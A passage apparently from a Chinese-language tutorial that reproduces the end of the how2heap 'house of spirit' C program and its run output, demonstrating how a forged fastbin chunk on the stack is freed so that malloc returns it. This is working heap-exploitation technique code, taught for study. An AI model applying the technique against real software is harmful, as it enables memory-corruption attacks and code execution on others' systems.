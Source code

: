 ```c
	fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
	fake_chunks[1] = 0x40; // this is the size

	fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
	fake_chunks[9] = 0x1234; // nextsize

	fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
	fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
	a = &fake_chunks[2];

	fprintf(stderr, "Freeing the overwritten pointer.\n");
	free(a);

	fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```

运行后的效果如下

```shell
➜  how2heap git:(master) ./house_of_spirit
This file demonstrates the house of spirit attack.
Calling malloc() once so that it sets up its memory.
We will now overwrite a pointer to point to a fake 'fastbin' region.
This region (memory of length: 80) contains two chunks. The first starts at 0x7ffd9bceaa58 and the second at 0x7ffd9bceaa88.
This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end.
The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.
Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7ffd9bceaa58.
... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7ffd9bceaa58, which will be 0x7ffd9bceaa60!
malloc(0x30): 0x7ffd9bceaa60
```
